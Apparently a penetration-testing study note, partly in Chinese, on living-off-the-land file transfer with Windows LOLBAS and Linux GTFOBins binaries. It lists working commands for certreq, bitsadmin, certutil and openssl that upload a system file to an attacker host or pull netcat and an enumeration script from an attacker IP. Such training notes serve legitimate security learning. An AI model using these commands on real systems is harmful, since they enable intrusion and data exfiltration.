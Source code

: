 [Windows - LOLBAS](https://lolbas-project.github.io/)
To search for download and upload functions in LOLBAS we can use **/download** or **/upload**.
[GTFOBins for Linux Binaries](https://gtfobins.github.io/)
To search for download and upload functions in LOLBAS we can use **+file download** or **+file upload**
# Windows LOLBAS
使用上述的网站可以找到对应功能的LOLBAS
## Certreq.exe
```powershell
certreq.exe -Post -config http://<attack_ip>:<port>/ c:\windows\win.ini #upload
# Receive via nc session.
```
#Tips For error -- Lower Version. Download from [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe)
## Bitsadmin
Download FIle:
```powershell
bitsadmin /transfer wcb /priority foreground http://<attack_ip>:<port>/nc.exe C:\Users\htb-student\Desktop\nc.exe
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```
## Certutil
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

# Linux LOLBAS
## openssl
like 'nc style'
### Upload
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem #create a cert.
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh #local

#Download
openssl s_client -connect <attacker_ip>:80 -quiet > LinEnum.sh
```